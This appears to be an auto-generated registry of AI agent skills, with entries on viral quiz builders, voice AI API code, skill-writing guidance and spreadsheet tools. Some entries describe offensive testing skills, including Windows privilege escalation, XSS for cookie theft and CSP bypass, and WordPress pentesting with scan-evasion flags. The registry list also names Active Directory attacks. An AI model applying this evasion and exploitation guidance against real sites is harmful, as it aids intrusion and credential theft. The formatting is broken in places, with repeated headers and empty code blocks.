- **ID**: `verifier`
- **Confidence**: `0.5`

### Description
Validates implemented work against spec requirements with empirical evidence

---

## viral-generator-builder
- **ID**: `viral-generator-builder`
- **Confidence**: `1.0`

### Description
"Expert in building shareable generator tools that go viral - name generators, quiz makers, avatar creators, personality tests, and calculator tools. Covers the psychology of sharing, viral mechanics, and building tools people can't resist sharing with friends. Use when: generator tool, quiz maker, name generator, avatar creator, viral tool."

### When to Use
### Generator Architecture

Building generators that go viral

**When to use**: When creating any shareable generator tool

```javascript

### When to Use
### The Viral Generator Formula
```
Input (minimal) → Magic (your algorithm) → Result (shareable)
```

### Input Design
| Type | Example | Virality |
|------|---------|----------|
| Name only | "Enter your name" | High (low friction) |
| Birthday | "Enter your birth date" | High (personal) |
| Quiz answers | "Answer 5 questions" | Medium (more investment) |
| Photo upload | "Upload a selfie" | High (personalized) |

### Result Types That Get Shared
1. **Identity results** - "You are a..."
2. **Comparison results** - "You're 87% like..."
3. **Prediction results** - "In 2025 you will..."
4. **Score results** - "Your score: 847/1000"
5. **Visual results** - Avatar, badge, certificate

### The Screenshot Test
- Result must look good as a screenshot
- Include branding subtly
- Make text readable on mobile
- Add share buttons but design for screenshots
```

### Quiz Builder Pattern

Building personality quizzes that spread

**When to use**: When building quiz-style generators

```javascript

### When to Use
### Quiz Structure
```
5-10 questions → Weighted scoring → One of N results
```

### Question Design
| Type | Engagement |
|------|------------|
| Image choice | Highest |
| This or that | High |
| Slider scale | Medium |
| Multiple choice | Medium |
| Text input | Low |

### Result Categories
- 4-8 possible results (sweet spot)
- Each result should feel desirable
- Results should feel distinct
- Include "rare" results for sharing

### Scoring Logic
```javascript
// Simple weighted scoring
const scores = { typeA: 0, typeB: 0, typeC: 0, typeD: 0 };

answers.forEach(answer => {
  scores[answer.type] += answer.weight;
});

const result = Object.entries(scores)
  .sort((a, b) => b[1] - a[1])[0][0];
```

### Result Page Elements
- Big, bold result title
- Flattering description
- Shareable image/card
- "Share your result" buttons
- "See what friends got" CTA
- Subtle retake option
```

### Name Generator Pattern

Building name generators that people love

**When to use**: When building any name/text generator

```javascript

---

## voice-agents
- **ID**: `voice-agents`
- **Confidence**: `0.5`

### Description
"Voice agents represent the frontier of AI interaction - humans speaking naturally with AI systems. The challenge isn't just speech recognition and synthesis, it's achieving natural conversation flow with sub-800ms latency while handling interruptions, background noise, and emotional nuance.  This skill covers two architectures: speech-to-speech (OpenAI Realtime API, lowest latency, most natural) and pipeline (STT→LLM→TTS, more control, easier to debug). Key insight: latency is the constraint. Hu"

---

## voice-ai-development
- **ID**: `voice-ai-development`
- **Confidence**: `1.0`

### Description
"Expert in building voice AI applications - from real-time voice agents to voice-enabled apps. Covers OpenAI Realtime API, Vapi for voice agents, Deepgram for transcription, ElevenLabs for synthesis, LiveKit for real-time infrastructure, and WebRTC fundamentals. Knows how to build low-latency, production-ready voice experiences. Use when: voice ai, voice agent, speech to text, text to speech, realtime voice."

### When to Use
### OpenAI Realtime API

Native voice-to-voice with GPT-4o

**When to use**: When you want integrated voice AI without separate STT/TTS

```python
import asyncio
import websockets
import json
import base64

OPENAI_API_KEY = "sk-..."

async def voice_session():
    url = "wss://api.openai.com/v1/realtime?model=gpt-4o-realtime-preview"
    headers = {
        "Authorization": f"Bearer {OPENAI_API_KEY}",
        "OpenAI-Beta": "realtime=v1"
    }

    async with websockets.connect(url, extra_headers=headers) as ws:
        # Configure session
        await ws.send(json.dumps({
            "type": "session.update",
            "session": {
                "modalities": ["text", "audio"],
                "voice": "alloy",  # alloy, echo, fable, onyx, nova, shimmer
                "input_audio_format": "pcm16",
                "output_audio_format": "pcm16",
                "input_audio_transcription": {
                    "model": "whisper-1"
                },
                "turn_detection": {
                    "type": "server_vad",  # Voice activity detection
                    "threshold": 0.5,
                    "prefix_padding_ms": 300,
                    "silence_duration_ms": 500
                },
                "tools": [
                    {
                        "type": "function",
                        "name": "get_weather",
                        "description": "Get weather for a location",
                        "parameters": {
                            "type": "object",
                            "properties": {
                                "location": {"type": "string"}
                            }
                        }
                    }
                ]
            }
        }))

        # Send audio (PCM16, 24kHz, mono)
        async def send_audio(audio_bytes):
            await ws.send(json.dumps({
                "type": "input_audio_buffer.append",
                "audio": base64.b64encode(audio_bytes).decode()
            }))

        # Receive events
        async for message in ws:
            event = json.loads(message)

            if event["type"] == "resp
```

### Vapi Voice Agent

Build voice agents with Vapi platform

**When to use**: Phone-based agents, quick deployment

```python
# Vapi provides hosted voice agents with webhooks

from flask import Flask, request, jsonify
import vapi

app = Flask(__name__)
client = vapi.Vapi(api_key="...")

# Create an assistant
assistant = client.assistants.create(
    name="Support Agent",
    model={
        "provider": "openai",
        "model": "gpt-4o",
        "messages": [
            {
                "role": "system",
                "content": "You are a helpful support agent..."
            }
        ]
    },
    voice={
        "provider": "11labs",
        "voiceId": "21m00Tcm4TlvDq8ikWAM"  # Rachel
    },
    firstMessage="Hi! How can I help you today?",
    transcriber={
        "provider": "deepgram",
        "model": "nova-2"
    }
)

# Webhook for conversation events
@app.route("/vapi/webhook", methods=["POST"])
def vapi_webhook():
    event = request.json

    if event["type"] == "function-call":
        # Handle tool call
        name = event["functionCall"]["name"]
        args = event["functionCall"]["parameters"]

        if name == "check_order":
            result = check_order(args["order_id"])
            return jsonify({"result": result})

    elif event["type"] == "end-of-call-report":
        # Call ended - save transcript
        transcript = event["transcript"]
        save_transcript(event["call"]["id"], transcript)

    return jsonify({"ok": True})

# Start outbound call
call = client.calls.create(
    assistant_id=assistant.id,
    customer={
        "number": "+1234567890"
    },
    phoneNumber={
        "twilioPhoneNumber": "+0987654321"
    }
)

# Or create web call
web_call = client.calls.create(
    assistant_id=assistant.id,
    type="web"
)
# Returns URL for WebRTC connection
```

### Deepgram STT + ElevenLabs TTS

Best-in-class transcription and synthesis

**When to use**: High quality voice, custom pipeline

```python
import asyncio
from deepgram import DeepgramClient, LiveTranscriptionEvents
from elevenlabs import ElevenLabs

# Deepgram real-time transcription
deepgram = DeepgramClient(api_key="...")

async def transcribe_stream(audio_stream):
    connection = deepgram.listen.live.v("1")

    async def on_transcript(result):
        transcript = result.channel.alternatives[0].transcript
        if transcript:
            print(f"Heard: {transcript}")
            if result.is_final:
                # Process final transcript
                await handle_user_input(transcript)

    connection.on(LiveTranscriptionEvents.Transcript, on_transcript)

    await connection.start({
        "model": "nova-2",  # Best quality
        "language": "en",
        "smart_format": True,
        "interim_results": True,  # Get partial results
        "utterance_end_ms": 1000,
        "vad_events": True,  # Voice activity detection
        "encoding": "linear16",
        "sample_rate": 16000
    })

    # Stream audio
    async for chunk in audio_stream:
        await connection.send(chunk)

    await connection.finish()

# ElevenLabs streaming synthesis
eleven = ElevenLabs(api_key="...")

def text_to_speech_stream(text: str):
    """Stream TTS audio chunks."""
    audio_stream = eleven.text_to_speech.convert_as_stream(
        voice_id="21m00Tcm4TlvDq8ikWAM",  # Rachel
        model_id="eleven_turbo_v2_5",  # Fastest
        text=text,
        output_format="pcm_24000"  # Raw PCM for low latency
    )

    for chunk in audio_stream:
        yield chunk

# Or with WebSocket for lowest latency
async def tts_websocket(text_stream):
    async with eleven.text_to_speech.stream_async(
        voice_id="21m00Tcm4TlvDq8ikWAM",
        model_id="eleven_turbo_v2_5"
    ) as tts:
        async for text_chunk in text_stream:
            audio = await tts.send(text_chunk)
            yield audio

        # Flush remaining audio
        final_audio = await tts.flush()
        yield final_audio
```

---

## voice-ai-engine-development
- **ID**: `voice-ai-engine-development`
- **Confidence**: `1.0`

### Description
"Build real-time conversational AI voice engines using async worker pipelines, streaming transcription, LLM agents, and TTS synthesis with interrupt handling and multi-provider support"

### When to Use
Use this skill when:
- Building real-time voice conversation systems
- Implementing voice assistants or chatbots
- Creating voice-enabled customer service agents
- Developing voice AI applications with interrupt capabilities
- Integrating multiple transcription, LLM, or TTS providers
- Working with streaming audio processing pipelines
- The user mentions Vocode, voice engines, or conversational AI

---

## vulnerability-scanner
- **ID**: `vulnerability-scanner`
- **Confidence**: `0.5`

### Description
Advanced vulnerability analysis principles. OWASP 2025, Supply Chain Security, attack surface mapping, risk prioritization.

---

## web-artifacts-builder
- **ID**: `web-artifacts-builder`
- **Confidence**: `0.5`

### Description
Suite of tools for creating elaborate, multi-component claude.ai HTML artifacts using modern frontend web technologies (React, Tailwind CSS, shadcn/ui). Use for complex artifacts requiring state management, routing, or shadcn/ui components - not for simple single-file HTML/JSX artifacts.

---

## web-design-guidelines
- **ID**: `web-design-guidelines`
- **Confidence**: `0.5`

### Description
Review UI code for Web Interface Guidelines compliance. Use when asked to "review my UI", "check accessibility", "audit design", "review UX", or "check my site against best practices".

---

## web-performance-optimization
- **ID**: `web-performance-optimization`
- **Confidence**: `1.0`

### Description
"Optimize website and web application performance including loading speed, Core Web Vitals, bundle size, caching strategies, and runtime performance"

### When to Use
- Use when website or app is loading slowly
- Use when optimizing for Core Web Vitals (LCP, FID, CLS)
- Use when reducing JavaScript bundle size
- Use when improving Time to Interactive (TTI)
- Use when optimizing images and assets
- Use when implementing caching strategies
- Use when debugging performance bottlenecks
- Use when preparing for performance audits

---

## webapp-testing
- **ID**: `webapp-testing`
- **Confidence**: `0.5`

### Description
Toolkit for interacting with and testing local web applications using Playwright. Supports verifying frontend functionality, debugging UI behavior, capturing browser screenshots, and viewing browser logs.

---

## Windows Privilege Escalation
- **ID**: `windows-privilege-escalation`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "escalate privileges on Windows," "find Windows privesc vectors," "enumerate Windows for privilege escalation," "exploit Windows misconfigurations," or "perform post-exploitation privilege escalation." It provides comprehensive guidance for discovering and exploiting privilege escalation vulnerabilities in Windows environments.

### Purpose
Provide systematic methodologies for discovering and exploiting privilege escalation vulnerabilities on Windows systems during penetration testing engagements. This skill covers system enumeration, credential harvesting, service exploitation, token impersonation, kernel exploits, and various misconfigurations that enable escalation from standard user to Administrator or SYSTEM privileges.

### Behavior & Constraints
### Operational Boundaries
- Kernel exploits may cause system instability
- Some exploits require specific Windows versions
- AV/EDR may detect and block common tools
- Token impersonation requires service account context
- Some techniques require GUI access

### Detection Considerations
- Credential dumping triggers security alerts
- Service modification logged in Event Logs
- PowerShell execution may be monitored
- Known exploit signatures detected by AV

### Legal Requirements
- Only test systems with written authorization
- Document all escalation attempts
- Avoid disrupting production systems
- Report all findings through proper channels

---

## Wireshark Network Traffic Analysis
- **ID**: `wireshark-analysis`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "analyze network traffic with Wireshark", "capture packets for troubleshooting", "filter PCAP files", "follow TCP/UDP streams", "detect network anomalies", "investigate suspicious traffic", or "perform protocol analysis". It provides comprehensive techniques for network packet capture, filtering, and analysis using Wireshark.

### Purpose
Execute comprehensive network traffic analysis using Wireshark to capture, filter, and examine network packets for security investigations, performance optimization, and troubleshooting. This skill enables systematic analysis of network protocols, detection of anomalies, and reconstruction of network conversations from PCAP files.

### Behavior & Constraints
### Operational Boundaries
- Capture only authorized network traffic
- Handle captured data according to privacy policies
- Avoid capturing sensitive credentials unnecessarily
- Properly secure PCAP files containing sensitive data

### Technical Limitations
- Large captures consume significant memory
- Encrypted traffic content not visible without keys
- High-speed networks may drop packets
- Some protocols require plugins for full decoding

### Best Practices
- Use capture filters to limit data collection
- Save captures regularly during long sessions
- Use display filters rather than deleting packets
- Document analysis findings and methodology

---

## WordPress Penetration Testing
- **ID**: `wordpress-penetration-testing`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "pentest WordPress sites", "scan WordPress for vulnerabilities", "enumerate WordPress users, themes, or plugins", "exploit WordPress vulnerabilities", or "use WPScan". It provides comprehensive WordPress security assessment methodologies.

### Purpose
Conduct comprehensive security assessments of WordPress installations including enumeration of users, themes, and plugins, vulnerability scanning, credential attacks, and exploitation techniques. WordPress powers approximately 35% of websites, making it a critical target for security testing.

### Behavior & Constraints
### Legal Considerations
- Obtain written authorization before testing
- Stay within defined scope
- Document all testing activities
- Follow responsible disclosure

### Technical Limitations
- WAF may block scanning
- Rate limiting may prevent brute-force
- Some plugins may have false negatives
- XML-RPC may be disabled

### Detection Evasion
- Use random user agents: `--random-user-agent`
- Throttle requests: `--throttle 1000`
- Use proxy rotation
- Avoid aggressive modes on monitored sites

---

## workflow-automation
- **ID**: `workflow-automation`
- **Confidence**: `0.5`

### Description
"Workflow automation is the infrastructure that makes AI agents reliable. Without durable execution, a network hiccup during a 10-step payment flow means lost money and angry customers. With it, workflows resume exactly where they left off.  This skill covers the platforms (n8n, Temporal, Inngest) and patterns (sequential, parallel, orchestrator-worker) that turn brittle scripts into production-grade automation.  Key insight: The platforms make different tradeoffs. n8n optimizes for accessibility"

---

## writing-plans
- **ID**: `writing-plans`
- **Confidence**: `0.5`

### Description
Use when you have a spec or requirements for a multi-step task, before touching code

---

## writing-skills
- **ID**: `writing-skills`
- **Confidence**: `1.0`

### Description
Use when creating new skills, editing existing skills, or verifying skills work before deployment

### When to Use
**Frontmatter (YAML):**

- Only two fields supported: `name` and `description`
- Max 1024 characters total
- `name`: Use letters, numbers, and hyphens only (no parentheses, special chars)
- `description`: Third-person, describes ONLY when to use (NOT what it does)
  - Start with "Use when..." to focus on triggering conditions
  - Include specific symptoms, situations, and contexts
  - **NEVER summarize the skill's process or workflow** (see CSO section for why)
  - Keep under 500 characters if possible

```markdown
---
name: Skill-Name-With-Hyphens
description: Use when [specific triggering conditions and symptoms]
---

# Skill Name

### When to Use
[Small inline flowchart IF decision non-obvious]

Bullet list with SYMPTOMS and use cases
When NOT to use

### When to Use
**Critical for discovery:** Future Claude needs to FIND your skill

### 1. Rich Description Field

**Purpose:** Claude reads description to decide which skills to load for a given task. Make it answer: "Should I read this skill right now?"

**Format:** Start with "Use when..." to focus on triggering conditions

**CRITICAL: Description = When to Use, NOT What the Skill Does**

The description should ONLY describe triggering conditions. Do NOT summarize the skill's process or workflow in the description.

**Why this matters:** Testing revealed that when a description summarizes the skill's workflow, Claude may follow the description instead of reading the full skill content. A description saying "code review between tasks" caused Claude to do ONE review, even though the skill's flowchart clearly showed TWO reviews (spec compliance then code quality).

When the description was changed to just "Use when executing implementation plans with independent tasks" (no workflow summary), Claude correctly read the flowchart and followed the two-stage review process.

**The trap:** Descriptions that summarize workflow create a shortcut Claude will take. The skill body becomes documentation Claude skips.

```yaml
# ❌ BAD: Summarizes workflow - Claude may follow this instead of reading skill
description: Use when executing plans - dispatches subagent per task with code review between tasks

# ❌ BAD: Too much process detail
description: Use for TDD - write test first, watch it fail, write minimal code, refactor

# ✅ GOOD: Just triggering conditions, no workflow summary
description: Use when executing implementation plans with independent tasks in the current session

# ✅ GOOD: Triggering conditions only
description: Use when implementing any feature or bugfix, before writing implementation code
```

**Content:**

- Use concrete triggers, symptoms, and situations that signal this skill applies
- Describe the _problem_ (race conditions, inconsistent behavior) not _language-specific symptoms_ (setTimeout, sleep)
- Keep triggers technology-agnostic unless the skill itself is technology-specific
- If skill is technology-specific, make that explicit in the trigger
- Write in third person (injected into system prompt)
- **NEVER summarize the skill's process or workflow**

```yaml
# ❌ BAD: Too abstract, vague, doesn't include when to use
description: For async testing

# ❌ BAD: First person
description: I can help you with async tests when they're flaky

# ❌ BAD: Mentions technology but skill isn't specific to it
description: Use when tests use setTimeout/sleep and are flaky

# ✅ GOOD: Starts with "Use when", describes problem, no workflow
description: Use when tests have race conditions, timing dependencies, or pass/fail inconsistently

# ✅ GOOD: Technology-specific skill with explicit trigger
description: Use when using React Router and handling authentication redirects
```

### 2. Keyword Coverage

Use words Claude would search for:

- Error messages: "Hook timed out", "ENOTEMPTY", "race condition"
- Symptoms: "flaky", "hanging", "zombie", "pollution"
- Synonyms: "timeout/hang/freeze", "cleanup/teardown/afterEach"
- Tools: Actual commands, library names, file types

### 3. Descriptive Naming

**Use active voice, verb-first:**

- ✅ `creating-skills` not `skill-creation`
- ✅ `condition-based-waiting` not `async-test-helpers`

### 4. Token Efficiency (Critical)

**Problem:** getting-started and frequently-referenced skills load into EVERY conversation. Every token counts.

**Target word counts:**

- getting-started workflows: <150 words each
- Frequently-loaded skills: <200 words total
- Other skills: <500 words (still be concise)

**Techniques:**

**Move details to tool help:**

```bash
# ❌ BAD: Document all flags in SKILL.md
search-conversations supports --text, --both, --after DATE, --before DATE, --limit N

# ✅ GOOD: Reference --help
search-conversations supports multiple modes and filters. Run --help for details.
```

**Use cross-references:**

```markdown
# ❌ BAD: Repeat workflow details

When searching, dispatch subagent with template...
[20 lines of repeated instructions]

# ✅ GOOD: Reference other skill

Always use subagents (50-100x context savings). REQUIRED: Use [other-skill-name] for workflow.
```

**Compress examples:**

```markdown
# ❌ BAD: Verbose example (42 words)

your human partner: "How did we handle authentication errors in React Router before?"
You: I'll search past conversations for React Router authentication patterns.
[Dispatch subagent with search query: "React Router authentication error handling 401"]

# ✅ GOOD: Minimal example (20 words)

Partner: "How did we handle auth errors in React Router?"
You: Searching...
[Dispatch subagent → synthesis]
```

**Eliminate redundancy:**

- Don't repeat what's in cross-referenced skills
- Don't explain what's obvious from command
- Don't include multiple examples of same pattern

**Verification:**

```bash
wc -w skills/path/SKILL.md
# getting-started workflows: aim for <150 each
# Other frequently-loaded: aim for <200 total
```

**Name by what you DO or core insight:**

- ✅ `condition-based-waiting` > `async-test-helpers`
- ✅ `using-skills` not `skill-usage`
- ✅ `flatten-with-flags` > `data-structure-refactoring`
- ✅ `root-cause-tracing` > `debugging-techniques`

**Gerunds (-ing) work well for processes:**

- `creating-skills`, `testing-skills`, `debugging-with-logs`
- Active, describes the action you're taking

### 4. Cross-Referencing Other Skills

**When writing documentation that references other skills:**

Use skill name only, with explicit requirement markers:

- ✅ Good: `**REQUIRED SUB-SKILL:** Use superpowers:test-driven-development`
- ✅ Good: `**REQUIRED BACKGROUND:** You MUST understand superpowers:systematic-debugging`
- ❌ Bad: `See skills/testing/test-driven-development` (unclear if required)
- ❌ Bad: `@skills/testing/test-driven-development/SKILL.md` (force-loads, burns context)

**Why no @ links:** `@` syntax force-loads files immediately, consuming 200k+ context before you need them.

### When to Use


**Use flowcharts ONLY for:**

- Non-obvious decision points
- Process loops where you might stop too early
- "When to use A vs B" decisions

**Never use flowcharts for:**

- Reference material → Tables, lists
- Code examples → Markdown blocks
- Linear instructions → Numbered lists
- Labels without semantic meaning (step1, helper2)

See @graphviz-conventions.dot for graphviz style rules.

**Visualizing for your human partner:** Use `render-graphs.js` in this directory to render a skill's flowcharts to SVG:

```bash
./render-graphs.js ../some-skill           # Each diagram separately
./render-graphs.js ../some-skill --combine # All diagrams in one SVG
```

### Behavior & Constraints
**Create when:**

- Technique wasn't intuitively obvious to you
- You'd reference this again across projects
- Pattern applies broadly (not project-specific)
- Others would benefit

**Don't create for:**

- One-off solutions
- Standard practices well-documented elsewhere
- Project-specific conventions (put in CLAUDE.md)
- Mechanical constraints (if it's enforceable with regex/validation, automate it—save documentation for judgment calls)

---

## xlsx
- **ID**: `xlsx`
- **Confidence**: `0.5`

### Description
"Comprehensive spreadsheet creation, editing, and analysis with support for formulas, formatting, data analysis, and visualization. When Claude needs to work with spreadsheets (.xlsx, .xlsm, .csv, .tsv, etc) for: (1) Creating new spreadsheets with formulas and formatting, (2) Reading or analyzing data, (3) Modify existing spreadsheets while preserving formulas, (4) Data analysis and visualization in spreadsheets, or (5) Recalculating formulas"

---

## xlsx
- **ID**: `xlsx-official`
- **Confidence**: `0.5`

### Description
"Comprehensive spreadsheet creation, editing, and analysis with support for formulas, formatting, data analysis, and visualization. When Claude needs to work with spreadsheets (.xlsx, .xlsm, .csv, .tsv, etc) for: (1) Creating new spreadsheets with formulas and formatting, (2) Reading or analyzing data, (3) Modify existing spreadsheets while preserving formulas, (4) Data analysis and visualization in spreadsheets, or (5) Recalculating formulas"

---

## Cross-Site Scripting and HTML Injection Testing
- **ID**: `xss-html-injection`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "test for XSS vulnerabilities", "perform cross-site scripting attacks", "identify HTML injection flaws", "exploit client-side injection vulnerabilities", "steal cookies via XSS", or "bypass content security policies". It provides comprehensive techniques for detecting, exploiting, and understanding XSS and HTML injection attack vectors in web applications.

### Purpose
Execute comprehensive client-side injection vulnerability assessments on web applications to identify XSS and HTML injection flaws, demonstrate exploitation techniques for session hijacking and credential theft, and validate input sanitization and output encoding mechanisms. This skill enables systematic detection and exploitation across stored, reflected, and DOM-based attack vectors.

### Behavior & Constraints
### Operational Boundaries
- Never inject payloads that could damage production systems
- Limit cookie/session capture to demonstration purposes only
- Avoid payloads that could spread to unintended users (worm behavior)
- Do not exfiltrate real user data beyond scope requirements

### Technical Limitations
- Content Security Policy (CSP) may block inline scripts
- HttpOnly cookies prevent JavaScript access
- SameSite cookie attributes limit cross-origin attacks
- Modern frameworks often auto-escape outputs

### Legal and Ethical Requirements
- Written authorization required before testing
- Report critical XSS vulnerabilities immediately
- Handle captured credentials per data protection agreements
- Do not use discovered vulnerabilities for unauthorized access

---

## zapier-make-patterns
- **ID**: `zapier-make-patterns`
- **Confidence**: `1.0`

### Description
"No-code automation democratizes workflow building. Zapier and Make (formerly Integromat) let non-developers automate business processes without writing code. But no-code doesn't mean no-complexity - these platforms have their own patterns, pitfalls, and breaking points.  This skill covers when to use which platform, how to build reliable automations, and when to graduate to code-based solutions. Key insight: Zapier optimizes for simplicity and integrations (7000+ apps), Make optimizes for power "

### When to Use
name: zapier-make-patterns
description: "No-code automation democratizes workflow building. Zapier and Make (formerly Integromat) let non-developers automate business processes without writing code. But no-code doesn't mean no-complexity - these platforms have their own patterns, pitfalls, and breaking points.  This skill covers when to use which platform, how to build reliable automations, and when to graduate to code-based solutions. Key insight: Zapier optimizes for simplicity and integrations (7000+ apps), Make optimizes for power "
source: vibeship-spawner-skills (Apache 2.0)
---

# Zapier & Make Patterns

You are a no-code automation architect who has built thousands of Zaps and
Scenarios for businesses of all sizes. You've seen automations that save
companies 40% of their time, and you've debugged disasters where bad data
flowed through 12 connected apps.

Your core insight: No-code is powerful but not unlimited. You know exactly
when a workflow belongs in Zapier (simple, fast, maximum integrations),
when it belongs in Make (complex branching, data transformation, budget),
and when it needs to g

---


<gsd_registry type="skills"><!-- MACHINE-READABLE REGISTRY -->
    <item id="3d-web-experience" confidence="1.0">
        <name>3d-web-experience</name>
        <path>.agent/skills/3d-web-experience/SKILL.md</path>
        <description>"Expert in building 3D experiences for the web - Three.js, React Three Fiber, Spline, WebGL, and interactive 3D scenes. Covers product configurators, 3D portfolios, immersive websites, and bringing depth to web experiences. Use when: 3D website, three.js, WebGL, react three fiber, 3D experience."</description>
    </item>
    <item id="ab-test-setup" confidence="0.5">
        <name>ab-test-setup</name>
        <path>.agent/skills/ab-test-setup/SKILL.md</path>
        <description>Structured guide for setting up A/B tests with mandatory gates for hypothesis, metrics, and execution readiness.</description>
    </item>
    <item id="active-directory-attacks" confidence="1.0">
        <name>Active Directory Attacks</name>
        <path>.agent/skills/active-directory-attacks/SKILL.md</path>
        <description>This skill should be used when the user asks to "attack Active Directory", "exploit AD", "Kerberoasting", "DCSync", "pass-the-hash", "BloodHound enumeration", "Golden Ticket", "Silver Ticket", "AS-REP roasting", "NTLM relay", or needs guidance on Windows domain penetration testing.</description>
    </item>
    <item id="address-github-comments" confidence="0.5">
        <name>address-github-comments</name>
        <path>.agent/skills/address-github-comments/SKILL.md</path>
        <description>Use when you need to address review or issue comments on an open GitHub Pull Request using the gh CLI.</description>
    </item>
    <item id="agent-evaluation" confidence="0.5">
        <name>agent-evaluation</name>
        <path>.agent/skills/agent-evaluation/SKILL.md</path>
        <description>"Testing and benchmarking LLM agents including behavioral testing, capability assessment, reliability metrics, and production monitoring—where even top agents achieve less than 50% on real-world benchmarks Use when: agent testing, agent evaluation, benchmark agents, agent reliability, test agent."</description>
    </item>
    <item id="agent-manager-skill" confidence="1.0">
        <name>agent-manager-skill</name>
        <path>.agent/skills/agent-manager-skill/SKILL.md</path>
        <description>Manage multiple local CLI agents via tmux sessions (start/stop/monitor/assign) with cron-friendly scheduling.</description>
    </item>
    <item id="agent-memory-mcp" confidence="1.0">
        <name>agent-memory-mcp</name>
        <path>.agent/skills/agent-memory-mcp/SKILL.md</path>
        <description>A hybrid memory system that provides persistent, searchable knowledge management for AI agents (Architecture, Patterns, Decisions).</description>
    </item>
    <item id="agent-memory-systems" confidence="0.5">
        <name>agent-memory-systems</name>
        <path>.agent/skills/agent-memory-systems/SKILL.md</path>
        <description>"Memory is the cornerstone of intelligent agents. Without it, every interaction starts from zero. This skill covers the architecture of agent memory: short-term (context window), long-term (vector stores), and the cognitive architectures that organize them.  Key insight: Memory isn't just storage - it's retrieval. A million stored facts mean nothing if you can't find the right one. Chunking, embedding, and retrieval strategies determine whether your agent remembers or forgets.  The field is fragm"</description>
    </item>
    <item id="agent-tool-builder" confidence="0.5">
        <name>agent-tool-builder</name>
        <path>.agent/skills/agent-tool-builder/SKILL.md</path>
        <description>"Tools are how AI agents interact with the world. A well-designed tool is the difference between an agent that works and one that hallucinates, fails silently, or costs 10x more tokens than necessary.  This skill covers tool design from schema to error handling. JSON Schema best practices, description writing that actually helps the LLM, validation, and the emerging MCP standard that's becoming the lingua franca for AI tools.  Key insight: Tool descriptions are more important than tool implementa"</description>
    </item>
    <item id="ai-agents-architect" confidence="0.5">
        <name>ai-agents-architect</name>
        <path>.agent/skills/ai-agents-architect/SKILL.md</path>
        <description>"Expert in designing and building autonomous AI agents. Masters tool use, memory systems, planning strategies, and multi-agent orchestration. Use when: build agent, AI agent, autonomous agent, tool use, function calling."</description>
    </item>
    <item id="ai-product" confidence="0.5">
        <name>ai-product</name>
        <path>.agent/skills/ai-product/SKILL.md</path>
        <description>"Every product will be AI-powered. The question is whether you'll build it right or ship a demo that falls apart in production.  This skill covers LLM integration patterns, RAG architecture, prompt engineering that scales, AI UX that users trust, and cost optimization that doesn't bankrupt you. Use when: keywords, file_patterns, code_patterns."</description>
    </item>
    <item id="ai-wrapper-product" confidence="1.0">
        <name>ai-wrapper-product</name>
        <path>.agent/skills/ai-wrapper-product/SKILL.md</path>
        <description>"Expert in building products that wrap AI APIs (OpenAI, Anthropic, etc.) into focused tools people will pay for. Not just 'ChatGPT but different' - products that solve specific problems with AI. Covers prompt engineering for products, cost management, rate limiting, and building defensible AI businesses. Use when: AI wrapper, GPT product, AI tool, wrap AI, AI SaaS."</description>
    </item>
    <item id="algolia-search" confidence="0.5">
        <name>algolia-search</name>
        <path>.agent/skills/algolia-search/SKILL.md</path>
        <description>"Expert patterns for Algolia search implementation, indexing strategies, React InstantSearch, and relevance tuning Use when: adding search to, algolia, instantsearch, search api, search functionality."</description>
    </item>
    <item id="algorithmic-art" confidence="0.5">
        <name>algorithmic-art</name>
        <path>.agent/skills/algorithmic-art/SKILL.md</path>
        <description>Creating algorithmic art using p5.js with seeded randomness and interactive parameter exploration. Use this when users request creating art using code, generative art, algorithmic art, flow fields, or particle systems. Create original algorithmic art rather than copying existing artists' work to avoid copyright violations.</description>
    </item>
    <item id="analytics-tracking" confidence="1.0">
        <name>analytics-tracking</name>
        <path>.agent/skills/analytics-tracking/SKILL.md</path>
        <description>&gt;</description>
    </item>
    <item id="api-documentation-generator" confidence="1.0">
        <name>api-documentation-generator</name>
        <path>.agent/skills/api-documentation-generator/SKILL.md</path>
        <description>"Generate comprehensive, developer-friendly API documentation from code, including endpoints, parameters, examples, and best practices"</description>
    </item>
    <item id="api-fuzzing-bug-bounty" confidence="1.0">
        <name>API Fuzzing for Bug Bounty</name>
        <path>.agent/skills/api-fuzzing-bug-bounty/SKILL.md</path>
        <description>This skill should be used when the user asks to "test API security", "fuzz APIs", "find IDOR vulnerabilities", "test REST API", "test GraphQL", "API penetration testing", "bug bounty API testing", or needs guidance on API security assessment techniques.</description>
    </item>
    <item id="api-patterns" confidence="1.0">
        <name>api-patterns</name>
        <path>.agent/skills/api-patterns/SKILL.md</path>
        <description>API design principles and decision-making. REST vs GraphQL vs tRPC selection, response formats, versioning, pagination.</description>
    </item>
    <item id="api-security-best-practices" confidence="1.0">
        <name>api-security-best-practices</name>
        <path>.agent/skills/api-security-best-practices/SKILL.md</path>
        <description>"Implement secure API design patterns including authentication, authorization, input validation, rate limiting, and protection against common API vulnerabilities"</description>
    </item>
    <item id="app-builder" confidence="1.0">
        <name>app-builder</name>
        <path>.agent/skills/app-builder/SKILL.md</path>
        <description>Main application building orchestrator. Creates full-stack applications from natural language requests. Determines project type, selects tech stack, coordinates agents.</description>
    </item>
    <item id="app-store-optimization" confidence="1.0">
        <name>app-store-optimization</name>
        <path>.agent/skills/app-store-optimization/SKILL.md</path>
        <description>Complete App Store Optimization (ASO) toolkit for researching, optimizing, and tracking mobile app performance on Apple App Store and Google Play Store</description>
    </item>
    <item id="architecture" confidence="1.0">
        <name>architecture</name>
        <path>.agent/skills/architecture/SKILL.md</path>
        <description>Architectural decision-making framework. Requirements analysis, trade-off evaluation, ADR documentation. Use when making architecture decisions or analyzing system design.</description>
    </item>
    <item id="autonomous-agent-patterns" confidence="1.0">
        <name>autonomous-agent-patterns</name>
        <path>.agent/skills/autonomous-agent-patterns/SKILL.md</path>
        <description>"Design patterns for building autonomous coding agents. Covers tool integration, permission systems, browser automation, and human-in-the-loop workflows. Use when building AI agents, designing tool APIs, implementing permission systems, or creating autonomous coding assistants."</description>
    </item>
    <item id="autonomous-agents" confidence="0.5">
        <name>autonomous-agents</name>
        <path>.agent/skills/autonomous-agents/SKILL.md</path>
